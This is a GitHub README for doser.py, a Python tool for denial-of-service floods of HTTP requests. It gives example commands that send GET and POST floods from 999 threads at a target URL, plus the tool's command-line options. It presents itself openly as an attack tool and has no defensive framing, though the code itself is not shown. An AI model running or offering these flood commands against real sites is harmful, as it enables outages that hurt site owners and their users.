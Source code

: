 # doser.py
DoS tool for HTTP requests (inspired by hulk but has more functionalities) written in Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Examples
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Usage
usage: doser.py [-h] [-g G] [-p P] [-d D] [-ah AH] [-t T]

optional arguments:

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used

# TODO:
Rewrite to Golang :)
